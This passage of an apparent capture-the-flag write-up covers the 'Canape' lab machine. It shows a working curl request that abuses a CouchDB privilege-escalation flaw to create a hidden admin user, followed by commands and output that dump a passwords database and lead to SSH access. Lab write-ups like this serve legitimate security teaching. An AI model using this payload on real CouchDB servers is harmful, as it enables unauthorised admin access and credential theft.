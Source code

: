 However, this exploit does not seem to work on the machine. Since this is a DB and can interact with it, perhaps it has passwords within it. The references within the exploit have a link to this:

{% embed url="https://justi.cz/security/2017/11/14/couchdb-rce-npm.html" %}

The above uses `curl` to create a new administrator user on the machine.&#x20;

{% code overflow="wrap" %}
```bash
curl -X PUT 'http://localhost:5984/_users/org.couchdb.user:oops' --data-binary '{"type": "user", "name": "oops", "roles": ["_admin"], "roles": [], "password": "password"}'
```
{% endcode %}

Afterwards, we can read the passwords:

```
www-data@canape:/$ curl 127.0.0.1:5984/passwords/_all_docs --user 'oops:password'
{"total_rows":4,"offset":0,"rows":[
{"id":"739c5ebdf3f7a001bebb8fc4380019e4","key":"739c5ebdf3f7a001bebb8fc4380019e4","value":{"rev":"2-81cf17b971d9229c54be92eeee723296"}},
{"id":"739c5ebdf3f7a001bebb8fc43800368d","key":"739c5ebdf3f7a001bebb8fc43800368d","value":{"rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e"}},
{"id":"739c5ebdf3f7a001bebb8fc438003e5f","key":"739c5ebdf3f7a001bebb8fc438003e5f","value":{"rev":"1-77cd0af093b96943ecb42c2e5358fe61"}},
{"id":"739c5ebdf3f7a001bebb8fc438004738","key":"739c5ebdf3f7a001bebb8fc438004738","value":{"rev":"1-49a20010e64044ee7571b8c1b902cf8c"}}
]}
```

The one on the last row contains a hint about the user's password:

{% code overflow="wrap" %}
```
www-data@canape:/$ curl 127.0.0.1:5984/passwords/739c5ebdf3f7a001bebb8fc438004738 --user 'oops:password'
{"_id":"739c5ebdf3f7a001bebb8fc438004738","_rev":"1-49a20010e64044ee7571b8c1b902cf8c","user":"homerj0121","item":"github","password":"STOP STORING YOUR PASSWORDS HERE -Admin"}
```
{% endcode %}

With this, we can `ssh` in as `homer` using the password from the other fields:

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>
